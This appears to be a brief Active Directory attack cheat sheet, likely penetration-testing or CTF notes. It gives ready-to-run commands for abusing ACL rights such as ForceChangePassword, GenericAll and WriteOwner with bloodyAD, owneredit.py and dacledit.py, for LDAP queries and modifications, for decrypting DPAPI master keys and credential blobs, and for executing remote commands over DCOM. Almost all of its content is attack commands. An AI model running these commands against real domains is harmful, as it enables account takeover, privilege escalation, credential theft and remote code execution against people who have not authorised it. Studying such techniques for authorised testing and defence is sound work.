 


### 1. ForceChange User password using BloodyAD


If we have `ForceChangePassword` over a user, we can use bloodyAD to change their password


```bash
bloodyAD --host $IP -u 'ownedUser' -p 'password' set password 'targetuser' 'password-to-be-set'
```



### 2. Add a user to a group using BloodyAD


If we have `AddSelf` for a user or `GenericAll`, we can add them to a group using bloodyAD


```bash
bloodyAD --host $IP -d domain -u 'owneduser' -p 'password' add groupMember "GroupName" "User-to-be-added"
```




### 3. Change OwnerShip of a user  using ownerdit.py


If we have WriteOwner right over a user object, we can use `owneredit.py` to change the object ownership


```bash
owneredit.py domain/owneruser -target 'user-whose-ownership-is-to-be-changed' -action write -new-owner 'new-owner'
```





### 4. Granting GenericAll privilege to abuse ownership of a user object using dacledit.py


```bash
dacledit.py -action write -rights 'Full Control' -principal 'owneduser' -target 'targetuser' 'domain/owneduser:password'
```





### 5. Finding DN of a user with ldapsearch


```bash
ldapsearch -x -H ldap://<IP> -D "username@domain" -W -b "dc=domain,dc=com" "(sAMAccountName=<username>)"
```





### 6.  LdapModify with an LDIF file


```bash
ldapmodify -x -H ldap://<ip> -D "username@domain" -W -f <ldif_file
```





### 7. Decrypting DPAPI master key 


```bash
impacket-dpapi -master <masterkeyfile> -sid SID -password <password_of_the_user>
```




### 8. Decrypting DPAPI credential blob


```bash
impacket-dpapi -key <decrypted_master_key> -cred <encrypted_cred_blob>
```





## 9. Executing Commands Via DCOM on a remote machine


```bash
dcomexec.py domain/username:password@ip -dc-ip <ip> -M MMC20 'command'
```




